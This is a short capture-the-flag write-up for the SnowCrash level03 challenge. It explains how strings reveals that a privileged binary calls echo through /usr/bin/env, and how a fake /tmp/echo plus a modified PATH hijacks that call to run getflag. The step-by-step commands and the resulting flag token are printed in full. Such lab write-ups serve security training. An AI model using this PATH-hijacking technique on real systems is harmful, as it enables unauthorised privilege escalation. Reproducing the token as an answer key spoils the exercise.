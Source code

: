 ```
level03@SnowCrash:~$ ls
level03

level03@SnowCrash:~$ ./level03
Exploit me
```

We want to read the human-readable text inside that binary file so we use the command strings.

```
level03@SnowCrash:~$ strings level03 | grep "Exploit me"
/usr/bin/env echo Exploit me
```

We create file a file /tmp/echo that will actually be a copy of the file /bin/getflag so that when the program executes the command echo it will actually executes the command getflag.  

```
level03@SnowCrash:/tmp$ echo /bin/getflag > /tmp/echo

level03@SnowCrash:~$ chmod 777 /tmp/echo
```

Add the directory  /tmp at the beginning of PATH so the program will know to go to that directory first, instead of /usr/bin, when it will use the command echo.

```
level03@SnowCrash:~$ export PATH=/tmp:$PATH
```

Now, launch the program again:

```
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```